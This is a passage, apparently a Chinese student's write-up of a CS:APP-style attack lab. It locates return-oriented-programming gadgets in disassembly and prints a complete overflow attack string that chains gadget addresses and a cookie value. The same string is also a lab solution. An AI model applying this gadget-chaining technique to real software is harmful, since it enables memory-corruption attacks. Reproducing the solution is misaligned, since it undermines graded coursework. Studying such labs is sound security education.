 4. 在 submitr 函数 (它甚至不在 farm 中) 的最后两行找到

    ```text
    4029df:	41 5f       pop     %r15
    4029e1:	c3          retq
    ```

    从 0x4029e0 开始执行即是

    ```text
    4029e0: 5f          pop     %rdi
    4029e1: c3          retq
    ```

5. 所以攻击串为

    ```text
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    e0 29 40 00 00 00 00 00
    6c 59 f6 37 00 00 00 00
    fe 17 40 00 00 00 00 00
    ```

6. 这样提交能通过测试但是排行榜上只会显示 invalid? 是跳转函数不属于 farm 中的原因吗?
7. 在 farm 中找不到 ```pop      %rdi```, 但是能找到 ```pop  %rax``` 和 ```mov   %rax, %rdi```
8. addval_180 函数

    ```text
    401966:	8d 87 9d 9e 58 90       lea     -0x6fa76163(%rdi), %eax
    40196c:	c3                      retq
    ```

    从 0x40196a 开始执行便是

    ```text
    40196a: 58          pop     %rax
    40196b: 90          nop
    40196c: c3          retq
    ```

9.  getval_447 函数

    ```text
    401960:	b8 48 89 c7 90          mov     $0x90c78948, %eax
    401965:	c3                      retq
    ```

    从 0x401961 开始执行

    ```text
    401961: 48 89 c7        mov    %rax, %rdi
    401964: 90              nop
    401965: c3              retq
    ```
